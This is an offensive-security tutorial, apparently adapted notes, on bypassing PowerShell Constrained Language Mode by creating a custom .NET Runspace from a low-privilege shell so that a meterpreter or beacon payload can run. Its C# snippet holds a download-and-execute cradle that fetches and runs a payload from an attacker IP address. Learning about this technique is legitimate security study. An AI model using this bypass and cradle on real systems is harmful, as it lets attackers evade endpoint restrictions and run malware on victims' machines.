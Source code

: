PowerShell Constrained Language is a [language mode](https://blogs.msdn.microsoft.com/powershell/2017/04/10/a-comparison-of-shell-and-scripting-language-security/?ref=secjuice.com) of PowerShell designed to support day-to-day administrative tasks, yet  restrict access to sensitive language elements that can be used to  invoke arbitrary Windows APIs. Suppose we have a shell as a low-priv user at a helpdesk and need to execute a payload for meterpreter or beacon.
 
![](Pasted%20image%2020241102011802.png)

even on disk:
![](Pasted%20image%2020241102011819.png)


## .NET Runspaces
Runspaces helps in creating another instance of Powershell. Each powershell session you use is said to be a runspace. Using runspaces you can create a parallel instance and execute your commands through it. The powershell CLI is just an interpreter of the .NET assembly, so it's perfectly possible to create our own. So, lets create one. :)

![](Pasted%20image%2020241102011842.png)

- Make sure you have System.Automation.Management.dll added to the project.
```
Runspace run = RunspaceFactory.CreateRunspace();
run.Open();
```

- The [RunspaceFactory.](https://docs.microsoft.com/en-us/dotnet/api/system.management.automation.runspaces.runspacefactory?view=powershellsdk-1.1.0&ref=secjuice.com)Create() method helps in creating a new instance of the Runspace named run.
```
PowerShell shell = PowerShell.Create();
shell.Runspace = run;
```

- The [PowerShell](https://docs.microsoft.com/en-us/dotnet/api/system.management.automation.powershell?view=powershellsdk-1.1.0&ref=secjuice.com) shell object is created and our Runspace "run" is set as it's runspace.
```
String exec = "iex(new-object net.webclient).DownloadString('http://192.168.0.104/payload')";
shell.AddScript(exec);
shell.Invoke();
```

We assign our desired command to exec, then use AddScript() to add it to the pipeline and execute it using Invoke(). Keep in mind that there's no output from our code and it's blind for now. Let's run it on the target and see if we succeed.

![](Pasted%20image%2020241102012001.png)

Lets try to see what's the LanguageMode of the created RunSpace:
![](Pasted%20image%2020241102012023.png)

I modified the script a bit to return the commands output to a collection and print it out. Let's see what's up now.
![](Pasted%20image%2020241102012043.png)


more on : https://www.secjuice.com/powershell-constrainted-language-mode-bypass-using-runspaces/